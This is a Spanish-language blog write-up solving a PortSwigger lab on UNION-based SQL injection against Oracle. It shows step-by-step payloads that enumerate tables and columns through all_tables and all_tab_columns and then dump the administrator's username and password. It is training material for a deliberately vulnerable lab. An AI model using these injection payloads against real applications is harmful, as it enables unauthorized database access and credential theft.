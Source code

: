 ```yaml
---
title: PortSwigger - SQL injection attack, listing the database contents on Oracle.
layout: post
post-image: /assets/images/gatohacker4.jpg 
description: La resolución del reto SQL injection attack, listing the database contents on Oracle. 
tags:
- portswigger
- sqli
- post
- writeups
---
```

# Solución
---

Primero hacemos click en el botón **Gifts** o en cualquier otro.

![](/assets/images/images-portswigger-sqli/lab10-1.png)

Como en los demás retos la SQL injection está en la url. 

Para comenzar a enumerar en Oracle siempre debemos especificar una tabla, pero como no conocemos ninguna usaremos [**dual**](https://docs.oracle.com/cd/B19306_01/server.102/b14200/queries009.htm).

```sql
' UNION SELECT null from dual-- -
```

![](/assets/images/images-portswigger-sqli/lab10-2.png)

Con un solo `null` la página nos devuelve un error, pero si seguimos agregando nos damos cuenta que existen 2 columnas.

```sql
' UNION SELECT null,null from dual-- -
```

![](/assets/images/images-portswigger-sqli/lab10-3.png)

Ahora es tiempo de enumerar el nombre de la tabla donde se encuentran las credenciales, para eso usaremos la tabla **all_tables** y seleccionaremos el nombre de las tablas con **table_name**.

```sql
' UNION SELECT table_name,null from all_tables-- -
```

![](/assets/images/images-portswigger-sqli/lab10-4.png)

Con `CTRL + f` escribimos **USERS** y podemos encontrar de manera más rapida la tabla que nos interesa `USERS_XKMLUO`.

![](/assets/images/images-portswigger-sqli/lab10-5.png)

Ahora enumeraremos los nombres de las columnas. Para eso usaremos la tabla `all_tab_columns`, le indicaremos que queremos la columna `column_name` y que nos muestro solo la tabla con nombre `USERS_XKMLUO`.

```sql
' UNION SELECT column_name,null from all_tab_columns where table_name = 'USERS_XKLMUO'-- -
```

- Ten en cuenta que la string después del guión bajo (`_XKLMUO`) es aleatorio para cada usuario, por lo tanto, la tuya será diferente a la mía. Además ten en consideración las mayúsculas, escribe la tabla y las columnas en maýusculas cuando corresponda. Finalmente ten cuidado con las comillas porque también puede darte error.

![](/assets/images/images-portswigger-sqli/lab10-6.png)

Podemos ver que nos devuelve los 2 nombres de las columnas `PASSWORD_UJZJJK` y `USERNAME_HIFSMI`.

![](/assets/images/images-portswigger-sqli/lab10-7.png)

Con esta información podemos terminar de construir nuestro query.

Primero reemplazamos los null por los nombres de las columnas y le indicamos sobre qué tabla debe sacar la información.

```sql
' UNION SELECT PASSWORD_UJZJJK,USERNAME_HIFSMI from USERS_XKLMUO-- -
```

![](/assets/images/images-portswigger-sqli/lab10-8.png)

Podemos ver las credenciales de la cuenta de administrador.

![](/assets/images/images-portswigger-sqli/lab10-9.png)

Hacemos click en el botón **My account**.

![](/assets/images/images-portswigger-sqli/lab10-10.png)

Ingresamos las credenciales.

![](/assets/images/images-portswigger-sqli/lab10-11.png)

Y resolvemos el laboratorio.

![](/assets/images/images-portswigger-sqli/lab10-12.png)


---

## [Anterior](/blog/SQL-injection-attack%2C-listing-the-database-contents-on-non-Oracle-databases)